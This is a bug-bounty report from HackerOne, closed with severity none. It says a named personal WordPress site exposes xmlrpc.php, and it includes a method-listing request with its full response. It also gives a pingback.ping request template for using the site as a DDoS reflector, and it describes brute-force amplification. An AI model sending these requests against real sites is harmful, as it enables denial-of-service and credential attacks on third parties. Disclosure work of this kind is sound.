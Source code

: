 # xmlrpc.php FILE IS enable it can be used for conducting a Bruteforce attack and Denial of Service(DoS)

## Report Details
- **Report ID**: 769716
- **URL**: https://hackerone.com/reports/769716
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-01-07T20:03:25.653Z
- **Disclosed**: 2020-01-07T20:13:35.908Z

## Reporter
- **Username**: shrimant_yogi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: iandunn-projects

## Vulnerability Information
Hi Team,

The website https://www.iandunn.name has the xmlrpc.php file enabled and could thus be potentially used for such an attack against other victim hosts. Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS.

URL: https://www.iandunn.name

In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

Request:
POST /xmlrpc.php HTTP/1.1
Host: www.iandunn.name
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 135
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

-------------------------------------------------------------------------------------------------------------------------------------

Response:

HTTP/1.1 200 OK
Date: Tue, 07 Jan 2020 19:32:48 GMT
Content-Type: text/xml; charset=UTF-8
Connection: close
Set-Cookie: __cfduid=dc58db4ecd3ff4946ffca93e21566ff371578425567; expires=Thu, 06-Feb-20 19:32:47 GMT; path=/; domain=.iandunn.name; HttpOnly; SameSite=Lax
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=15552000
CF-Cache-Status: DYNAMIC
X-Content-Type-Options: nosniff
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 55185c145806dcd6-SIN
Content-Length: 4272
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

Notice that a successful response is received showing that the xmlrpc.php file is enabled. Now, considering the domain https://www.iandunn.name, the xmlrpc.php file discussed above could potentially be abused to cause a DDOS attack against a victim host. This is achieved by simply sending a request that looks like below.

POST /xmlrpc.php HTTP/1.1
Host: https://www.iandunn.name
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 135
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://<YOUR SERVER ></string></value>
</param>
<param>
<value><string>https://www.iandunn.name</string></value>
</param>
</params>

Remediation:
If the XMLRPC.php file is not being used, it should be disabled and removed completely to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.

POC: Screenshots are attached

Reference :
1) Here is the explanation of xmlrpc file enable brute force attack- https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html
2) The explanation for xmlrpc.php file will enable dos attack- https://blog.sucuri.net/2014/03/more-than-162000-wordpress-sites-used-for-distributed-denial-of-service-attack.html

Reference Hackerone Reports: #325040 #448524 #448524

Thanks, waiting for your response.

## Impact

1)This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.

2) This method is also used for brute force attacks to stealing the admin credentials and other important credentials

## Attachments
No attachments
